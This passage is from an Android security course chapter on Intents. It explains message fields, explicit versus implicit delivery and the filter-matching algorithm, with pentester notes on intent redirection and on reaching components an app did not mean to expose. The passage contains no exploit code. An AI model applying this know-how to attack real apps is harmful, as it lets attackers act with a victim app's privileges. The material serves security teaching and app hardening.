# 26 — Intent

> After this chapter you will be able to take any `Intent` an app sends or receives, predict exactly
> which component the platform will deliver it to and why, prove that prediction on a device with
> three commands, and exploit the two failure modes that follow from it — intent redirection and
> mutable `PendingIntent` — including writing the developer's fix as code.

**Prerequisites:** [09-Android-App-Internals](../09-Android-App-Internals/README.md),
[21-App-Sandbox](../21-App-Sandbox/README.md), [23-Permissions](../23-Permissions/README.md),
[24-IPC](../24-IPC/README.md). Chapter 25 — Binder is a useful companion but is not required; where
this chapter needs a Binder fact it states it inline.
**Applies to:** Android 4.1 – 16 (API 16 – 36). Behaviour that changed at a specific API level is
marked in a Version Matrix.

**Measured on:** a physical arm64 device, **Redmi, MIUI 12.5.10, Android 11 / API 30**. Every command
output printed in this chapter that is labelled *measured* was produced on that device on the date
this chapter was written. Everything else is labelled *documented* and comes from AOSP source or the
Android developer documentation. The distinction matters, and §7.9 lists exactly which claims fall in
which bucket — including two places where the device's behaviour differs from what a reader of the
documentation alone would expect.

---

## Table of Contents

1. [Introduction](#1-introduction)
2. [High-Level Architecture](#2-high-level-architecture)
3. [Deep Internal Working](#3-deep-internal-working)
4. [Source Code Walkthrough (AOSP)](#4-source-code-walkthrough-aosp)
5. [Security Perspective](#5-security-perspective)
6. [Reverse Engineering Perspective](#6-reverse-engineering-perspective)
7. [Dynamic Analysis](#7-dynamic-analysis)
8. [Static Analysis](#8-static-analysis)
9. [Examples](#9-examples)
10. [Common Interview Questions](#10-common-interview-questions)
11. [Common Mistakes](#11-common-mistakes)
12. [Hands-on Labs](#12-hands-on-labs)
13. [Summary](#13-summary)
14. [References](#14-references)

---

## 1. Introduction

### The problem that existed before Intents

Imagine you have written a photo app. A user has taken a picture and wants to email it. You now have
a choice, and every choice is bad:

- **Write an email client.** You now maintain SMTP, IMAP, OAuth, attachment encoding and a contacts
  UI, in a photo app.
- **Call the email app's code directly.** You cannot. It lives in a different process, owned by a
  different Linux user, behind a sandbox boundary
  ([21-App-Sandbox](../21-App-Sandbox/README.md)). Its memory is not yours to touch.
- **Hard-code one particular email app.** Now your app breaks when the user uninstalls it, and you
  have picked a winner in a market you have no business picking winners in.

The problem is not technical, it is *organisational*. Two programs written by two companies who have
never spoken need to cooperate, on a device where neither may read the other's memory, without
either of them knowing the other exists at build time.

Every operating system that solved this solved it the same way: **by passing messages instead of
calling functions**, and by letting a trusted middleman decide who receives the message. On Android
that message is called an **Intent**, and the middleman is `system_server`.

> **📖 Definition**
> An **Intent** is a passive data object describing an operation to be performed. It is a *message*,
> not a *call*. It carries — at most — an action string, a data URI, a MIME type, a set of category
> strings, an explicit target component, a package restriction, a bitmask of flags, and an arbitrary
> bag of key/value "extras". It does nothing by itself. It becomes an operation only when handed to
> `startActivity`, `startService`, `bindService`, `sendBroadcast` or one of their variants, at which
> point the system decides who receives it and delivers it.

### The postal analogy, and where it breaks

An Intent is a letter, and this analogy carries further than most:

| Postal system | Android |
|---|---|
| A letter addressed to "14 Mill Lane" | An **explicit** Intent naming a `ComponentName` |
| A letter addressed to "any locksmith in this town" | An **implicit** Intent with an action and data |
| The sorting office that decides which locksmith gets it | `PackageManagerService`'s resolver tables |
| The shop's sign saying "LOCKSMITH — keys cut, safes opened" | An `<intent-filter>` in `AndroidManifest.xml` |
| Anyone can put up a sign saying "LOCKSMITH" | **Anyone can declare any `<intent-filter>`** |
| The envelope's return address | A field the *sender* writes, and can lie about |

That last row is the whole chapter. **The return address on an Intent is written by the sender, and
in the general case the recipient cannot verify it.** A locksmith who receives a letter saying "from
the police, please open the safe at 14 Mill Lane" has no way to check. Neither, usually, does an
Android component.

This is the single most important asymmetry on the platform, and it is worth stating twice, because
almost every Intent vulnerability is a restatement of it:

> **🧠 Mental Model**
> **Binder stamps caller identity into the kernel; Intents largely do not.** When a Binder
> transaction arrives, the kernel driver itself writes the sender's real UID and PID into the
> receiving thread's state, and `Binder.getCallingUid()` reads a value no caller can forge. When an
> Intent arrives at an Activity, `getIntent()` returns a `Parcel` the sender authored end to end.
> There is a narrow, awkward exception (`getCallingActivity()`, and only for
> `startActivityForResult`) and §3.8 covers it precisely — but the default is: **you do not know who
> sent you this.** Chapter 25 — Binder owns the identity-stamping half of that sentence. This chapter
> owns the consequence.

### What would break if Intents did not exist

Remove Intents from Android and the platform stops in four ways at once:

1. **Nothing starts.** Android has no `main()` a user launches. The Launcher starts an app by
   sending `ACTION_MAIN` with `CATEGORY_LAUNCHER` and letting the resolver find the Activity. No
   Intent, no app launch.
2. **The system cannot tell apps anything.** `BOOT_COMPLETED`, `ACTION_BATTERY_LOW`,
   `CONNECTIVITY_CHANGE`, `ACTION_TIME_TICK` — the platform's entire event bus is broadcast Intents.
3. **Apps cannot cooperate.** No sharing, no "open with", no camera capture from another app, no
   OAuth redirect back into an app, no deep link from a web page.
4. **There are no deep links.** A `https://` link that opens the right app is a browser sending
   `ACTION_VIEW` and the resolver picking a winner. Web-to-app is Intent resolution and nothing else.

### The three questions this chapter answers

Everything here hangs off three questions. If you can answer all three about any given Intent, you
can assess any Intent-related finding.

1. **Where will it go?** — the resolution algorithm (§3.4–3.6). Readers routinely get this wrong,
   and the errors are systematic: people think `<data>` elements combine as tuples (they do not),
   they forget `CATEGORY_DEFAULT` (which silently breaks half of all deep-link tests), and they think
   a category on the Intent must appear on the filter *and* vice versa (only one direction is true).
2. **What can the receiver believe about it?** — caller identity (§3.8). Almost always: nothing.
3. **What happens if the receiver acts on it?** — intent redirection (§5.2) and `PendingIntent`
   mutability (§5.4), the two primitives that turn "component accepts an Intent" into "attacker
   executes with the victim's privileges".

### What this chapter deliberately does not cover

The repository divides this material on purpose, and duplicating it would make both halves worse:

| Topic | Owner | Why the split is there |
|---|---|---|
| `<intent-filter>` **as a manifest declaration** — every attribute, the `targetSdk` matrix, the export defaults, `manifest-audit.py` | [32-Manifest](../32-Manifest/README.md) §3.10 | 32 audits the *declaration*, statically, from an APK. This chapter explains the *runtime message* and the *matching algorithm* the declaration feeds. |
| What a laundered URI **grant** steals, and provider exploitation | [27-ContentProviders](../27-ContentProviders/README.md) §5.4 | 27 owns the consequence — the data that leaves. This chapter owns the primitive — the redirection itself, which is a vulnerability class with or without a grant attached. |
| A working **scheme-hijack** lab against an OAuth redirect | [45-OAuth lab-03](../45-OAuth/labs/lab-03-scheme-hijack.md) | 45 stages the attack. This chapter explains *why the platform lets it happen*, which is §3.4 and §3.11. |
| Caller identity as **stamped by the kernel** | [25-Binder](../25-Binder/README.md) | 25 owns `Binder.getCallingUid()` and the driver's identity stamp. This chapter owns why an Intent has no equivalent. |
| Activity task/back-stack behaviour, `launchMode`, task hijacking | [30-Activities](../30-Activities/README.md); the manifest side is in [32-Manifest](../32-Manifest/README.md) §3.6 | Flags that affect the *task* are listed here for completeness; their stack semantics are 30's. |
| Broadcast ordering, sticky broadcasts, receiver registration | [29-BroadcastReceivers](../29-BroadcastReceivers/README.md) | Broadcast *resolution* is here because it is the same algorithm; broadcast *delivery policy* is 29's. |

---

## 2. High-Level Architecture

### 2.1 What an Intent actually is, as a shape



Twelve fields. That is the whole message format. Everything in this chapter is a statement about how
one of those twelve fields is set, matched, trusted, or abused. Three of them deserve immediate
comment because they are where the bugs live:

- **`mComponent`** — when non-null the Intent is *explicit* and no matching happens at all. Setting it
  is the fix for most redirection bugs, and forgetting to set it is the cause of most.
- **`mExtras`** — an arbitrary `Bundle`. A `Bundle` can hold another `Intent`, because `Intent`
  implements `Parcelable`. **That single fact is the intent-redirection primitive.**
- **`mSelector`** — a second, nested Intent used *only* for resolution while the outer Intent's
  action and data are what gets delivered. It exists so you can say "resolve as if this were a
  browser request, but deliver this data". It is rare, poorly understood, and worth knowing because
  it appears in `intent:` URIs as `SEL` and can be used to steer resolution in ways a reviewer does
  not expect.

### 2.2 The delivery path, end to end



Read this diagram twice, because the security of the whole subsystem is in the difference between two
of its arrows.

The arrow from the binder driver into `system_server` carries an **unforgeable** identity: the kernel
driver writes the sending process's effective UID and PID into the receiving thread's state, and
`Binder.getCallingUid()` inside `ActivityTaskManagerService` reads exactly that. This is why the
export check and the permission check are trustworthy: they are made by `system_server`, against a
UID the caller cannot influence.

The arrow from `system_server` into the target app carries **only the Intent**. By the time the
target's `onCreate` runs, the caller's UID is not in the Intent, not in the `Bundle`, and not
retrievable from any parameter of `onCreate`. The target sees a message and nothing else. Everything
the target believes about *who* sent it, it believes because the message said so.

> **🔬 Under the Hood**
> `prepareToLeaveProcess()` runs in the **sender's** process, not the system's. That is why
> `FileUriExposedException` (thrown when a `file://` URI would cross an app boundary on
> `targetSdk >= 24`) is thrown by *your* app, with *your* stack trace, before any IPC happens. It is
> a client-side courtesy check, not an enforcement boundary — a modified or native caller that
> constructs the `Parcel` itself never runs it. Never treat a client-side check in the Android
> framework as a control.

### 2.3 The trust boundary



Three things to take from this picture.

**The red boxes are equivalent.** A web page reaching a `BROWSABLE` deep link and a malicious app
calling `startActivity` arrive at exactly the same place with exactly the same power over the
Intent's contents. The only difference is that the web page cannot attach a `Parcelable` extra — it
can only supply a URI. That difference matters and §3.11 quantifies it.

**The orange box is not the red box.** `adb shell` runs as UID 2000 and holds privileges no ordinary
app has. Reaching a component from `adb shell` proves the component *exists and functions*. It does
**not** prove an unprivileged app can reach it. This is the single most common reason an Intent
finding is rejected by a developer, and §7.6 gives you the discipline that avoids it.

**The dotted arrow is the finding.** `ATMS` refuses to deliver an attacker's Intent to a non-exported
component. But if an *exported* component takes an Intent out of an extra and starts it, that Intent
is now being sent by the victim's UID — and the non-exported component is reachable after all. That
is intent redirection, and it is the reason this chapter exists.

### 2.4 Where resolution happens



An explicit Intent — one with `mComponent` set — **skips the entire matching machinery**. No filter
is consulted, no category is checked, `CATEGORY_DEFAULT` is irrelevant, and an `<intent-filter>` is
not required on the target at all. The component's `exported` state and `permission` are still
enforced, by `system_server`, but *matching* does not happen.

This is why "set the component" is the fix for so many problems, and why the presence of an
`<intent-filter>` on a component tells you almost nothing about how it is actually reached in
practice. Plenty of exported components with rich filters are only ever started explicitly by their
own app; plenty of components with no filter at all are started constantly, explicitly, by other
apps that know their class name.

---

## 3. Deep Internal Working

### 3.1 The twelve fields, one at a time

Every field below is settable by the sender, arrives at the receiver exactly as the sender left it,
and is worth a specific question during an assessment.

| Field | Setter | Type | What it is | Why you care |
|---|---|---|---|---|
| **action** | `setAction(String)` / constructor | `String` | A string naming the operation, by convention a reverse-DNS name such as `android.intent.action.VIEW`. **There is no registry.** Anything is a valid action. | Custom actions (`com.example.ACTION_SYNC`) are how apps expose private-looking APIs that are not private at all. |
| **data** | `setData(Uri)` | `Uri` | A URI naming the thing to operate on. | The primary attacker-controlled payload in deep links. `setData` **clears the type**; §3.2. |
| **type** | `setType(String)` | `String` | An explicit MIME type, overriding whatever the data URI would imply. | `setType` **clears the data**. Use `setDataAndType` to set both; getting this wrong silently breaks resolution. |
| **identifier** | `setIdentifier(String)` (API 29) | `String` | An arbitrary string that participates in `filterEquals`. | Lets two otherwise-identical `PendingIntent`s be distinct. Relevant to `PendingIntent` collision bugs — §3.9. |
| **categories** | `addCategory(String)` | `Set<String>` | Extra qualifiers the target must support. | `CATEGORY_DEFAULT` and `CATEGORY_BROWSABLE` are the two that decide real behaviour. §3.5. |
| **component** | `setComponent` / `setClassName` / `setClass` | `ComponentName` | An explicit `package/class` target. | Non-null means **explicit**: no matching at all. |
| **package** | `setPackage(String)` | `String` | Restricts resolution to one package without naming the class. | The pragmatic fix when you need implicit semantics but not implicit *targets*. |
| **flags** | `setFlags` / `addFlags` | `int` bitmask | Behaviour switches — task handling, URI grants, receiver policy. | `FLAG_GRANT_*` are the ones with teeth. §3.7. |
| **extras** | `putExtra(...)` | `Bundle` | Arbitrary typed key/value data. | **An extra can itself be an `Intent`.** This is the redirection primitive. |
| **selector** | `setSelector(Intent)` (API 15) | `Intent` | A second Intent used *only* for resolution. | Rarely seen, occasionally load-bearing. `setSelector` requires the outer Intent to have no package or component. |
| **clipData** | `setClipData(ClipData)` (API 16) | `ClipData` | Additional URIs that participate in URI grants. | A grant can travel on `clipData` when the data URI looks harmless. Auditors miss this. |
| **sourceBounds** | `setSourceBounds(Rect)` | `Rect` | Screen coordinates of the launching UI element. | Not security-relevant; mentioned so you can dismiss it when you see it in a dump. |

> **📖 Definition**
> A **`Bundle`** is Android's typed key/value map, designed to be flattened into a `Parcel` — the
> byte buffer a Binder transaction carries. Its most consequential property is **lazy unparcelling**:
> when a `Bundle` arrives over IPC it holds only the raw bytes, and it is not deserialised until the
> first `get*` call. That deferral is why a malformed extra crashes the receiver deep inside
> `getIntent().getStringExtra(...)` rather than at delivery, and it is the mechanism behind the
> Bundle mismatch ("Parcel mismatch" / re-parcelling) bug family — an area
> [24-IPC](../24-IPC/README.md) covers as a `Parcel` topic.

#### The `setData` / `setType` trap, precisely

This is not an obscure corner; it is the single most common reason a developer's Intent silently
fails to resolve and the reason a tester's reproduction does not reproduce.

```java
// examples/intent-field-semantics.java — the trap, and the fix
Intent bad = new Intent(Intent.ACTION_VIEW);
bad.setData(Uri.parse("content://com.example.docs/1"));
bad.setType("application/pdf");      // <-- this CLEARS the data URI
// bad.getData() is now null.

Intent good = new Intent(Intent.ACTION_VIEW);
good.setDataAndType(Uri.parse("content://com.example.docs/1"), "application/pdf");
// both survive.
```

`Intent.setData` and `Intent.setType` each null the other field. `setDataAndType` is the only way to
carry both. The reason is historical — the two were originally alternative ways of describing the
same thing — but the consequence is current: a filter that requires *both* a scheme and a MIME type
can never be matched by an Intent built with `setData` followed by `setType`.

### 3.2 Explicit versus implicit — the distinction everything hangs on

> **📖 Definition**
> An Intent is **explicit** when `mComponent` is non-null: it names one package and one class, and
> the system delivers it there or fails. An Intent is **implicit** when `mComponent` is null: the
> system must *resolve* it against every installed app's declared filters and pick a target.

| | Explicit | Implicit |
|---|---|---|
| Target chosen by | The **sender** | The **system**, from filters |
| Filters consulted | No | Yes |
| `CATEGORY_DEFAULT` needed on the target | No | **Yes**, for Activities started with `startActivity` |
| `<intent-filter>` needed on the target | No | Yes |
| Can reach a **non-exported** component | Only from the same UID | No |
| Can be intercepted by another app | No | **Yes** |
| Chooser dialog possible | No | Yes |
| Broadcast: who receives it | One component | **Every** matching receiver |

The security consequences run entirely one way:

- **A sensitive payload must never travel on an implicit Intent.** If you `sendBroadcast` an implicit
  Intent carrying a session token, every app with a matching receiver gets the token. If you
  `startActivity` an implicit Intent carrying one, the user may be shown a chooser and may pick the
  attacker.
- **`setPackage()` converts an implicit Intent into a package-restricted one.** Resolution still
  happens — the action, categories and data are still matched — but only against filters belonging to
  the named package. This is the *minimum* fix and it is usually sufficient.
- **`setComponent()` / `setClassName()` converts it into a fully explicit one.** Resolution does not
  happen at all. This is the strongest fix and the correct one whenever the sender genuinely knows
  the target.

> **⚠️ Warning**
> From `targetSdk` 34 (Android 14), the platform **refuses to deliver an implicit Intent to a
> non-exported component of the same app**. Apps that relied on "implicit, but it can only be me
> because only I declare that action" now break. This is a genuine hardening step, and it also tells
> you what the platform thinks of that pattern. *(Documented — this device runs API 30 and could not
> be used to measure it.)*

### 3.3 The five ways an Intent is sent, and what changes

| API | Delivered to | Implicit allowed? | Result path | Notes for the tester |
|---|---|---|---|---|
| `startActivity(Intent)` | Exactly one Activity | Yes — chooser if ambiguous | none | Requires `CATEGORY_DEFAULT` on the matched filter when implicit. |
| `startActivityForResult(Intent, int)` | Exactly one Activity | Yes | `onActivityResult` | **The only path where the receiver can learn the caller** — `getCallingActivity()`. §3.8. |
| `startService` / `startForegroundService` | Exactly one Service | Illegal from API 21 — `IllegalArgumentException` | none | The API-21 restriction is why service redirection payloads use explicit components. |
| `bindService` | Exactly one Service | Illegal from API 21 | `IBinder` | The attacker gets an RPC handle, not a one-shot message. Enumerate its transactions. |
| `sendBroadcast` / `sendOrderedBroadcast` | **All** matching receivers | Yes | none / result extras | The fan-out is the risk: one implicit broadcast reaches every app that asked for it. |

> **🔍 Pentester's Note**
> "Service Intent must be explicit" (`IllegalArgumentException`, API 21+) is a **client-side** check
> in `ContextImpl.validateServiceIntent`. It stops honest developers from writing implicit service
> Intents. It does not stop an attacker, who is always explicit anyway — an attacker knows exactly
> which component they want. Do not report the presence of that check as a mitigation.

### 3.4 The resolution algorithm — the part readers get wrong

This is the mechanism that makes deep links work, makes chooser dialogs appear, and makes scheme
hijacking possible ([45-OAuth lab-03](../45-OAuth/labs/lab-03-scheme-hijack.md)). It is implemented
in `IntentFilter.match()` in `frameworks/base/core/java/android/content/IntentFilter.java`, and it is
**three independent tests, all of which must pass**.



#### Test 1 — action

| Intent's action | Filter's `<action>` list | Result |
|---|---|---|
| `null` | anything (even empty) | **Pass.** A null action matches every filter. |
| `"X"` | contains `"X"` | Pass |
| `"X"` | does not contain `"X"` | Fail |
| `"X"` | **empty** (no `<action>` at all) | **Fail.** A filter with no action can never match a non-null action. |

The rule is one-directional and easy to state: **if the Intent names an action, the filter must list
it.** The filter may list twenty more; that is irrelevant. A filter listing *zero* actions matches
only an action-less Intent, which in practice means it matches nothing, which is why a filter with no
`<action>` is almost always a developer mistake.

#### Test 2 — category

| Intent's categories | Filter's `<category>` list | Result |
|---|---|---|
| `{}` (empty) | anything | Pass |
| `{A}` | contains `A` | Pass |
| `{A, B}` | contains `A` and `B` | Pass |
| `{A, B}` | contains `A` only | **Fail** |
| `{}` | contains `A, B, C` | **Pass** — extras on the filter cost nothing |

**Every category on the Intent must appear on the filter. Categories on the filter that the Intent
does not name are ignored.** The direction catches people out constantly; it is the exact opposite of
the intuition that a filter is a "requirement list".

> **⚠️ Warning — `CATEGORY_DEFAULT`, the one that breaks everybody's test**
> `Context.startActivity()` and `startActivityForResult()` **add `android.intent.category.DEFAULT` to
> the Intent** when it is implicit. That is not a filter rule, it is a caller-side rule, and it means
> an Activity filter that does not declare `<category android:name="android.intent.category.DEFAULT"/>`
> **can never be started by an implicit `startActivity`** — no matter how perfectly its action and
> data match.
>
> Two consequences you will meet in the field:
>
> 1. A component with a beautiful-looking deep-link filter that is missing `DEFAULT` is unreachable
>    implicitly. It is still reachable **explicitly** by class name, which is why the finding is
>    "reachable explicitly, not via the browser" and not "not reachable".
> 2. Your `adb shell am start -a ... -d ...` fails while the app's own navigation works, and you
>    conclude the component is protected. It is not. Add `-n <pkg>/<class>` and try again.
>
> This rule applies to **Activities only**. Broadcasts and Services do not get `DEFAULT` added and do
> not need it.

#### Test 3 — data

This is where the real complexity lives, and where the "multiple `<data>` elements" question is
decided.



The rules, stated as prose because the diagram cannot carry the exceptions:

1. **Neither data nor type on the Intent.** Passes only if the filter also specifies neither. A
   filter with any `<data>` child fails an Intent with no data.
2. **Data but no type.** The URI's scheme, host, port and path are matched against the filter's
   declared schemes, authorities and paths. The filter must specify no MIME types — *unless* the
   URI's scheme is `content:` or `file:`, in which case the platform will infer a type from the
   `ContentResolver` for `content:` URIs.
3. **Type but no data.** Passes if the type matches and the filter specifies no schemes, or specifies
   only `content:`/`file:` (which are treated as implicit when a type is present — this is the
   "implied scheme" rule and it is genuinely surprising).
4. **Both.** Both tests must pass independently.

> **🔬 Under the Hood — the implied `content:`/`file:` scheme**
> `IntentFilter.matchData` contains a special case: when the filter declares MIME types but no
> schemes at all, `content` and `file` are matched anyway. The reasoning is that a MIME type is only
> meaningful for something you can read, and on Android that means a `content://` or `file://` URI.
> It means a filter that looks like it accepts nothing but a bare type actually accepts
> `content://anything` too, which widens an exported component's surface beyond what its manifest
> appears to say. Check it with `cmd package query-activities` rather than by reading.

#### How multiple `<data>` elements combine — the cross product

This is the question the section title promised, and the answer is counter-intuitive enough that it
is worth measuring rather than asserting.

